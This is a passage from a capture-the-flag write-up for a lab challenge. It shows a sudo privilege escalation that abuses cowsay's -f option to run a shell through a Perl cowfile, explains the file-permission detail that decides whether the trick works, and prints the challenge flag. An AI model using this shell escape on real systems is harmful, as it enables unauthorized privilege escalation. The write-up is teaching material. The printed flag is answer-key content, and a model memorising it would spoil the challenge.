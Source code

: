 ```
shellmates{$uDO_G03s_m0OoOoo0OO0O0O0h}
$ exit
```

OR :

```
ctf@sudo-3-f7977884c-g2sg4:~$ touch /tmp/script
ctf@sudo-3-f7977884c-g2sg4:~$ echo 'exec "/bin/sh";' > /tmp/script
ctf@sudo-3-f7977884c-g2sg4:~$ sudo -u ctf-cracked  /usr/games/cowsay -f /tmp/script Hello
[sudo] password for ctf: 
$ cat flag.txt
cat: flag.txt: No such file or directory
$ cat /flag.txt
shellmates{$uDO_G03s_m0OoOoo0OO0O0O0h}
$ exit
```

### **Why doesn't `mktemp` work though ?** 

When using `mktemp` :

```
ctf@sudo-3-f7977884c-g2sg4:~$ ls -l /tmp/script
-rw-rw-r-- 1 ctf ctf 16 Dec 25 23:38 /tmp/script
ctf@sudo-3-f7977884c-g2sg4:~$ ls -l $TF
-rw------- 1 ctf ctf 0 Dec 25 23:38 /tmp/tmp.ZoJIyNtBrZ
```

Note that the manually created file has group and other rights and the `mktemp` created doesn't.

In reality, when we passe the file in the `-f`, if it doesn't have read rights then it can't read it, in consequence it can't execute the shell code. And with the file created with `mktemp`, and when you execute sudo with ctf-cracked user, he will try to read the file to execute it in the `cowsay` command, but, since the file you created owned by ctf and doesn't have other read permission, the user ctf-cracked can't read it, so, he won;t be able to execute the `perl` command in it.

To remediate to that, simlpy add other rights to read the file :

```
ctf@sudo-3-f7977884c-g2sg4:~$ TF=$(mktemp)
ctf@sudo-3-f7977884c-g2sg4:~$ ls -l $TF
-rw------- 1 ctf ctf 0 Dec 25 23:53 /tmp/tmp.mh712Krz2h
ctf@sudo-3-f7977884c-g2sg4:~$ chmod o+r $TF
ctf@sudo-3-f7977884c-g2sg4:~$ ls -l $TF
-rw----r-- 1 ctf ctf 0 Dec 25 23:53 /tmp/tmp.mh712Krz2h
```

Or, create the `/tmp` file manually using `touch`, which creates a file by default with other having read permission. This makes the ctf-cracked able to read it, and the `cowsay` command may read the file and execute the code in it.

## Flag

shellmates{$uDO_G03s_m0OoOoo0OO0O0O0h}

## More Information

https://gtfobins.github.io/gtfobins/cowsay/
https://gtfobins.github.io/gtfobins/perl/

Permissions in Linux : https://kb.iu.edu/d/abdb